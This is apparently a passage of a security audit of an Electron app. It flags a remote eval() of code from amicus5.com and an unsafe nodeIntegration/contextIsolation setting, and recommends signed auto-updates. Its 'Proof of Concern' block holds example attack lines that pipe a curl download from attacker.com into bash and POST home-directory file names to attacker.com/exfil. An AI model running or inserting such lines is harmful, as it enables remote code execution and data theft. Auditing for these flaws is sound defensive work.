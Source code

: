 **Risk:**
- Allows arbitrary code execution from a remote server
- If `amicus5.com` is compromised or DNS is hijacked, attacker can execute ANY code with full application privileges
- Code runs with Node.js integration enabled, providing access to:
  - File system operations
  - Network operations
  - System commands
  - User data and credentials

**Impact:** 
- Complete application compromise
- Data exfiltration of user documents
- Installation of malware
- Keylogging and credential theft
- Pivot to other system resources

**Recommendation:** 
1. **IMMEDIATELY REMOVE** the `eval()` statement
2. If updates are needed, implement a secure auto-update mechanism using:
   - Electron's built-in `autoUpdater` module
   - Code signing and signature verification
   - HTTPS with certificate pinning
3. Never execute arbitrary remote code

**Proof of Concern:**
Any attacker with control over `amicus5.com/js/updates.js` or ability to perform man-in-the-middle attacks can:
```javascript
// Malicious updates.js example:
require('child_process').exec('curl attacker.com/malware.sh | bash');
require('fs').readdir(require('os').homedir(), (err, files) => {
  fetch('https://attacker.com/exfil', { method: 'POST', body: JSON.stringify(files) });
});
```

---

### 🔴 HIGH SEVERITY ISSUES

#### 2. Insecure Electron Configuration - **SEVERITY: HIGH**

**Location:** `main.js:15-23`

```javascript
webPreferences: {
  nodeIntegration: true,        // ⚠️ SECURITY RISK
  contextIsolation: false,      // ⚠️ SECURITY RISK
}
```

**Risk:**
- Renderer process has full Node.js API access
- No isolation between web content and Node.js context
- XSS vulnerabilities become Remote Code Execution vulnerabilities
- Any injected JavaScript can access file system, network, and system APIs
